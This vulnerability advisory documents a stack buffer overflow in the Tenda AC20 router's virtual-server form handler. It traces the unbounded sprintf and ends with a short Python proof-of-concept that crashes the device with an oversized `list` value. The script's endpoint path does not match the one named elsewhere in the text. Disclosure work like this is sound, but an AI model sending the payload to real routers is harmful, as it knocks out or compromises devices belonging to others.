


# Stack-Based Buffer Overflow in Tenda AC20 (firmware V16.03.08.12) formSetVirtualSer

## Summary

A stack-based buffer overflow vulnerability in the Tenda AC20 router (firmware V16.03.08.12) allows unauthenticated remote attackers to execute arbitrary code or cause denial of service (DoS) via the `list` parameter in the `/goform/formSetVirtualSer` endpoint. The flaw resides in the `save_virtualser_data` function, which processes the `list` input with unsafe string formatting operations lacking bounds checking, enabling stack memory corruption.

## Details


*   **Vendor**: Tenda

*   **Product**: Tenda AC20

*   **Firmware Version**: V16.03.08.12

*   **Firmware Download**: [https://www.tenda.com.cn/material/show/3264](https://www.tenda.com.cn/material/show/3264)

*   **Component**: `/goform/formSetVirtualSer`

*   **Vulnerability Type**: Stack-Based Buffer Overflow (CWE-121)

*   **CVE ID**: CVE-2025-9088

*   **Reported by**: n0ps1ed (n0ps1edzz@gmail.com)

## Description

The vulnerability exists in the processing chain of the `list` parameter in the `formSetVirtualSer` function and its dependent `save_virtualser_data` function. The call chain and key operations are as follows:


1.  **Parameter Retrieval**: The `list` parameter is retrieved via `websGetVar` in `formSetVirtualSer` and directly passed to `save_virtualser_data` for virtual server rule processing, with no initial input validation.

2.  **Rule Parsing**: `save_virtualser_data` checks if the length of `list` is at least 5 bytes, then splits the input by a delimiter (controlled by the third parameter `a3`, value 126) using `strchr`. Each split segment is treated as a virtual server rule entry.

3.  **Data Extraction**: For each rule entry, `sscanf` is used to parse four fields (via format string `"%[^,]%*c%[^,]%*c%[^,]%*c%s"`), extracting values into buffers `v12`, `v13`, `v14`, and `v15`.

4.  **Unsafe Formatting**: Critical unsafe operations occur in `save_virtualser_data` when constructing the configuration string:

*   `sprintf(v11, "0;%s;%s;%s;%s;1", (const char *)v14, (const char *)v13, (const char *)v12, (const char *)v15)`: This formats the parsed fields into `v11`, a fixed-size 256-byte stack buffer.

*   No bounds checking is performed on the length of the parsed fields (`v12` to `v15`), which are directly derived from the user-controlled `list` parameter.

If any of the parsed fields are sufficiently long, the `sprintf` call will overflow the 256-byte `v11` buffer, overwriting adjacent stack memory (including return addresses, saved registers, and other critical stack data). This allows an attacker to corrupt the stack and potentially execute arbitrary code.



## PoC: Python Exploit Script

```
from pwn import *
import requests
url = "http://192.168.xxx.xxx/goform/SetVirtualServerCfg"
cookie = {"Cookie":"password=rfl1qw"}
data = {"list": cyclic(1000)}
res = requests.post(url, cookies=cookie, data=data)
res = requests.post(url, cookies=cookie, data=data)
print(res.text)
```

This script sends a crafted `list` parameter containing an overly long fourth field. When processed by `save_virtualser_data`, the `sprintf` call will overflow the `v11` buffer, causing stack corruption. Successful exploitation may result in arbitrary code execution or a denial of service condition (router crash/reboot).
